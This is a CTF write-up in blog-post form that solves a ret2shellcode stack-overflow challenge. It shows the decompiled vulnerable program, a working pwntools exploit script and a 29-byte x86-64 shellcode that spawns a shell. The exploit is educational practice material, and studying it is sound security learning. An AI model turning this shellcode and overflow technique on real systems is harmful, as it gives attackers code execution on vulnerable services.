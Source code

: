 ```yaml
---
layout: post
title: "Basic ROP Write Up"
---
```


# 0x00 Abstract

When I learn about [basic rop](https://ctf-wiki.github.io/ctf-wiki/pwn/stackoverflow/basic_rop/) technology, doing some exercises is necessary. The website not only summarizes the pwn experience but also provides corresponding ctf subjects. To perfect, I practice.



# 0x01 ret2shellcode

Subject: [sniperoj-pwn100-shellcode-x86-64](https://raw.githubusercontent.com/SniperOJ/CDN/master/pwn/shorter-shellcode-x86-64)

This is a ret2shellcode problem with disabled NX. With F5 button in IDA, it can be noticed that there are only 32 bytes for our shellcode:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 buf; // [rsp+0h] [rbp-10h]
  __int64 v5; // [rsp+8h] [rbp-8h]

  buf = 0LL;
  v5 = 0LL;
  setvbuf(_bss_start, 0LL, 1, 0LL);
  puts("Welcome to Sniperoj!");
  printf("Do your kown what is it : [%p] ?\n", &buf, 0LL, 0LL);
  puts("Now give me your answer : ");
  read(0, &buf, 0x40uLL);
  return 0;
}
```

Because the `shellcraft.sh()` of [pwntools](https://docs.pwntools.com/en/stable/shellcraft/i386.html) is much larger, we can choose the [29 bytes](http://shell-storm.org/shellcode/files/shellcode-905.php) shellcode to use:

```shell
$ python -c "from pwn import *;print len(asm(shellcraft.sh()))"
44
``` 

```python
import re
from pwn import *

p = process("./shellcode-x86-64")
#p = remote("pwn.sniperoj.com", 20005)
buf_address = int(re.search(r"0x.*?\b", p.recvuntil("answer : ")).group(), 16)
shellcode = ""
shellcode += "\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf"
shellcode += "\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54"
shellcode += "\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"
payload = "A" * (0x10+8) + p64(buf_address+0x20) + shellcode
p.sendline(payload)
p.interactive()
```
